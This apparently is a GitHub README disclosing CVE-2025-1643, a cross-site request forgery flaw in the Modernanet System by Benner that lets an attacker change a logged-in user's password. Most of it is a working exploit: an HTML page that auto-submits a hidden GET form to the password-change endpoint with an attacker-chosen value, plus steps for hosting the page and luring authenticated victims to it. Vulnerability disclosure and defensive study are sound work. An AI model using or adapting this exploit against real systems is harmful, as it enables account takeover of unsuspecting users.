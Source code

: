 # CVE-2025-1643
The Modernanet System by Benner is vulnerable to Cross-Site Request Forgery.

**Affected Version: < 1.1.1**

**OBS: The malicius request only works with GET method!**


## POC

This vulnerability resides in the /DadosPessoais/SG_AlterarSenha page in novaSenha  parameter,

It's possible to manipulate the request and trick authenticated users into unknowingly performing action.

In this case, it is possible to carry out an attack, which, if done correctly, 
can change the password of any authenticated user on the website.


## First Step

We have to create a malicious server, to lure the victim.

---


## Malicious server

**in the value field, you have to change to the password that you want**

```html
<!DOCTYPE html>
<html>
<head>
<title>PoC CSRF</title>
</head>
<body onload="document.getElementById('csrfForm').submit()">
  <form id="csrfForm" method="GET" action="https://*.modernanet.com.br/DadosPessoais/SG_AlterarSenha">
    <input type="hidden" name="novaSenha" value="CHANGE-THIS-TO-NEW-PASSWORD">
  </form>
</body>
</html>
```

---

## Second Step

We have to send the link of our server to the victim, **the victim have to be authenticated**.
When the victim clicks in the link, their password it's automatically changed to known password.

end.


## Full url
https://IP/DadosPessoais/SG_AlterarSenha

---

## Reference

https://modernasistemas.com.br/
